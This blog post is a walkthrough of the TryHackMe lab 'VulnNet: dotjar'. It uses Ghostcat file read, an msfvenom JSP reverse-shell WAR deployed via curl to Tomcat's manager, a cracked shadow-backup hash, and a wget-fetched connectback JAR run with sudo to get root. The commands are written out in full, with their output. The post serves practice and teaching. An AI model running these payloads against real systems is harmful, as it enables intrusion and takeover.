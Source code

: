 ```yaml
---
layout: post
title:  "THM: VulnNet: dotjar"
date:   2021-04-24 22:00:00 +1100
category: hacking
---
```


## VulnNet: dotjar
This is [VulnNet: dotjar](https://tryhackme.com/room/vulnnetdotjar) from THM. It's medium rated, and says:

>A new machine means a new web implementation. Foothold should be rather easy-going as long as you connect the dots. Privilege escalation might depend on your Java knowledge, don't worry though, I'm rather a person who avoids Java and I still had a lot of fun working on this machine.

## Ports
8009 and 8080 only. Port 8009 is *Apache Jserv (Protocol v1.3)*; this will be important.

## 8080
We have Apache Tomcat, which I've seen in several CTFs now and usually with default credentials. However, that isn't the case today - I tried a few; nothing. Now what?

## 8009
Apache Jserv (Protocol v1.3) is vulnerable to the [Ghostcat](https://www.trendmicro.com/en_us/research/20/c/busting-ghostcat-an-analysis-of-the-apache-tomcat-vulnerability-cve-2020-1938-and-cnvd-2020-10487.html) LFI vulnerability, which is also explained [here](https://apkash8.medium.com/hunting-and-exploiting-apache-ghostcat-b7446ef83e74). There is an exploit on [github](https://github.com/00theway/Ghostcat-CNVD-2020-10487), and we can use it as the Medium blog describes, firstly to read WEB-INF, and then:

{% highlight shell %}
┌──(root💀kali)-[/opt/thm/dotjar]
└─# python3 exploit.py  http://10.10.124.0:8080/ 8009 /WEB-INF/web.xml read
# stuff, removed
     VulnNet Dev Regulations - mandatory
 
1. Every VulnNet Entertainment dev is obligated to follow the rules described herein according to the contract you signed.
2. Every web application you develop and its source code stays here and is not subject to unauthorized self-publication.
-- Your work will be reviewed by our web experts and depending on the results and the company needs a process of implementation might start.
-- Your project scope is written in the contract.
3. Developer access is granted with the credentials provided below:
 
    creds:REDACTED
 
GUI access is disabled for security reasons.
 
4. All further instructions are delivered to your business mail address.
5. If you have any additional questions contact our staff help branch.
# stuff, removed
{% endhighlight %}

With our credentials, we can log in - but notice the line above:

>GUI access is disabled for security reasons.

So it's CLI all the way.

Generate a payload with MSFVENOM

{% highlight shell %}
┌──(root💀kali)-[/opt/thm/dotjar]
└─# msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.9.10.123 LPORT=1234 -f war > shell.war
Payload size: 1087 bytes
Final size of war file: 1087 bytes
{% endhighlight %}

And send it up the line:

{% highlight shell %}
┌──(root💀kali)-[/opt/thm/dotjar]
└─# curl -v -u 'REDACTED' --upload-file shell.war "http://10.10.124.0:8080/manager/text/deploy?path=/hack&update=true"
*   Trying 10.10.124.0:8080...
* Connected to 10.10.124.0 (10.10.124.0) port 8080 (#0)
* Server auth using Basic with user 'webdev'
> PUT /manager/text/deploy?path=/hack&update=true HTTP/1.1
> Host: 10.10.124.0:8080
> Authorization: Basic CREDS:REDACTED==
> User-Agent: curl/7.74.0
> Accept: */*
> Content-Length: 1087
> Expect: 100-continue
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 100 
* We are completely uploaded and fine
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 
< Cache-Control: private
< Expires: Thu, 01 Jan 1970 00:00:00 GMT
< X-Content-Type-Options: nosniff
< Content-Type: text/plain;charset=utf-8
< Transfer-Encoding: chunked
< Date: Sat, 24 Apr 2021 10:44:52 GMT
< 
OK - Deployed application at context path [/hack]
* Connection #0 to host 10.10.124.0 left intact
{% endhighlight %}

Start a listener and visit http://10.10.124.0:8080/hack/ in the browser (or curl I guess):

{% highlight shell %}
┌──(root💀kali)-[/opt/thm/dotjar]
└─# nc -nvlp 1234                                              
listening on [any] 1234 ...
connect to [10.9.10.123] from (UNKNOWN) [10.10.124.0] 60308
id
uid=1001(web) gid=1001(web) groups=1001(web)
{% endhighlight %}

Boom, we're on.

## Privesc
It takes some enumeration, but we find a hash for our next user:

{% highlight shell %}
web@vulnnet-dotjar:/dev/shm$ gunzip shadow-backup-alt.gz # where did it come from? find it yourself lol
web@vulnnet-dotjar:/dev/shm$ ls
ls
shadow-backup-alt
web@vulnnet-dotjar:/dev/shm$ ls -lash
ls -lash
total 376K
   0 drwxrwxrwt  2 root root  100 Apr 24 13:41 .
   0 drwxr-xr-x 17 root root 3.7K Apr 24 12:22 ..
4.0K -rw-r-----  1 web  web  1.2K Apr 24 13:41 shadow-backup-alt
web@vulnnet-dotjar:/dev/shm$ file sh
file shadow-backup-alt 
shadow-backup-alt: ASCII text
web@vulnnet-dotjar:/dev/shm$ cat sh
cat shadow-backup-alt 
root:$6$FphZT5C5$cH1.ZcqBlBpjzn2k.w8uJ8sDgZw6Bj1NIhSL63pDLdZ9i3k41ofdrs2kfOBW7cxdlMexHZKxtUwfmzX/UgQZg.:18643:0:99999:7:::
daemon:*:18642:0:99999:7:::
bin:*:18642:0:99999:7:::
sys:*:18642:0:99999:7:::
# other hashes, you get the idea
{% endhighlight %}

From this there is a hash you can crack with John, and su to *jdk-admin*.

## Root

{% highlight shell %}
jdk-admin@vulnnet-dotjar:/dev/shm$ sudo -l
sudo -l
Password: REDACTED

Matching Defaults entries for jdk-admin on vulnnet-dotjar:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jdk-admin may run the following commands on vulnnet-dotjar:
    (root) /usr/bin/java -jar *.jar
{% endhighlight %}

Okay so we need an executable JAR file to run; I want one to give me a reverse shell. I get it from [here](https://github.com/1captainnemo1/connectback), but it's for Windows. Nevermind, just change this:

>Process p = new ProcessBuilder("C:\\Windows\\System32\\cmd.exe").redirectErrorStream(true).start();

to this:

>Process p = new ProcessBuilder("/bin/sh").redirectErrorStream(true).start();

We need to compile it and turn it into an executable JAR:

{% highlight shell %}
┌──(root💀kali)-[/opt/thm/dotjar/callback]
└─# javac --release 8 connectback.java                                                   
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true

┌──(root💀kali)-[/opt/thm/dotjar/callback]
└─# jar cmf connectback.mf connectback.jar connectback.class connectback.java
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
{% endhighlight %}

Note I had a newer JDK than the box and it wouldn't work, hence the *--release 8* option. Upload the file and run it (yeah, it took me a few goes):

{% highlight shell %}
jdk-admin@vulnnet-dotjar:/dev/shm$ !16 && !18
!16 && !18
rm connectback.jar  && wget http://10.9.10.123:9090/connectback.jar && sudo -u root /usr/bin/java -jar connectback.jar
--2021-04-24 14:09:34--  http://10.9.10.123:9090/connectback.jar
Connecting to 10.9.10.123:9090... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1887 (1.8K) [application/java-archive]
Saving to: ‘connectback.jar’

connectback.jar     100%[===================>]   1.84K  --.-KB/s    in 0.001s  

2021-04-24 14:09:34 (2.20 MB/s) - ‘connectback.jar’ saved [1887/1887]
{% endhighlight %}

And in another listener:

{% highlight shell %}
┌──(root💀kali)-[/opt/thm/dotjar]
└─# nc -nvlp 9999        
listening on [any] 9999 ...
connect to [10.9.10.123] from (UNKNOWN) [10.10.124.0] 51976
id;hostname;date
uid=0(root) gid=0(root) groups=0(root)
vulnnet-dotjar
Sat Apr 24 14:10:00 CEST 2021
{% endhighlight %}

Thanks to TheCyb3rW0lf.

